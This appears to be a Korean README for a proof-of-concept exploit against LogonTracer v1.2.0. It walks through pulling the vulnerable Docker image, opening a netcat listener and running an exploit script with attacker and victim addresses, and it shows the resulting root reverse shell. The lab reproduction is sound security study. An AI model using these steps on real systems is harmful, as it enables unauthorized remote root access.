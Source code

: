# 설치 및 실행 순서

#### 0. LogonTracer 설치
취약점이 발견되었던 1.2. 0 버전의 logontracer를 dockerhub에서 내려 받습니다.
<pre> $docker pull jpcertcc/docker-logontracer:v1.2.0 </pre>

#### 1. LogonTracer 실행
다음 명령어로 컨테이너에 올립니다.
<pre> $docker run \
   --detach \
   --publish=7474:7474 --publish=7687:7687 --publish=8080:8080 \
   -e LTHOSTNAME=[IP_ADDR] \
   jpcertcc/docker-logontracer:v1.2.0</pre>

#### 2. shell을 얻을 호스트 nc
shell을 얻을 호스트의 특정 포트를 nc를 이용해서 열어놓습니다.
<pre> 
PS C:\Users\0ppr2s\Desktop\main\nc> .\nc64.exe -lvp {attacker_port}
listening on [any] 8888 ...
</pre>


#### 3. 공격 코드 실행
공격코드를 실행합니다.
<pre> 
dnr6419@DESKTOP-4CJA7LD ~/docker/logon
☺  python3 go.py {attacker_ip} {attacker_port} http://{victime_ip}:8080
</pre>

### 실행 결과 
아래 그림과 같이 공격코드가 정상적으로 실행되어 remote shell을 얻은 것을 볼 수 있습니다.
<pre>
PS C:\Users\0ppr2s\Desktop\main\nc> .\nc64.exe -lvp 8888
listening on [any] 8888 ...
192.168.56.103: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.103] 41858: NO_DATA
/usr/local/src/LogonTracer # ^[[16;30Rid
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/usr/local/src/LogonTracer # ^[[20;30R
</pre>
![image](https://user-images.githubusercontent.com/43310843/120444308-780b2480-c3c2-11eb-9ec0-4a280bc941ab.png)
